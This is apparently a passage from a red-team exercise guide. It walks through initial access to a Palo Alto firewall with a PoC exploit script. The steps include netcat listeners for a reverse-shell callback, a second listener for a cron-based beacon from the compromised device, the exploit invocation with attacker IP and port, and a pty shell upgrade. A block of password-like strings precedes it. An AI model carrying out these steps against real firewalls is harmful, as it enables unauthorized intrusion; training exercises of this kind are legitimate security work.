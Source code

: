 ```text
mL@n2a3D@pP4
V$7+9YiU+7Q$
CXa9D+r9#U3+
f7+4A@G@6i@H
X2qY$6@Cv9w2
KG+Vs7e5$dF4

```

- Now that you are fully set up, move to Phase 1.

## Phase 1: Initial Access via Palo Alto Exploit

### Section 1. Setting Up Listeners

1. Open up your terminal, and if you dont already have 4, go to your terminal preferences and change the settings to start with 4 panes.
2. In one of the terminal panes, set up your initial lsitener using Netcat to catch the callback shell from the exploit. Be sure to note the port that you are using for this listener, as it will be needed when initiating the exploit.
   - `nc -lnv <random port>`
3. In another terminal pane, set up a second listener to catch the beacon once the cron job is set up on the compromised Palo. Use the port provided in the *pan_os_comm.py* script that was created earlier.
4. Run the following command to start the second listener:
   - `nc -lnv <port used in script>`

### Section 2. Execute the PoC Script

1. In one of the empty terminal panes, execute the PoC.py script to trigger the exploit:

```bash
python PoC.py https://<ip_of_palo_management_interface> <ip_address_of_attack_box> <port_of_initial_listener>
```

3. Watch the initial listener pane to ensure it catches the callback from the exploit.
   If you see the following, you have successfully exploited the Palo Alto and now have a limited bash shell into the root of the system:
   ![image](https://github.com/user-attachments/assets/0d3b2d49-fe66-4dcb-80da-51204efebfbc)

   If you do not see the following, its time to troubleshoot.

4. To receive a more usable shell tty, use the following command:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```


Troubleshooting steps:
   1. Use the correct IP addresses and ports in your listeners and exploit arguments
   2. Ensure there is routing to the Palo Management Interface.
   3. Ensure you copied your exploit script over correctly
   4. Find a Sassy Panda SME and pray they have the answers :-)
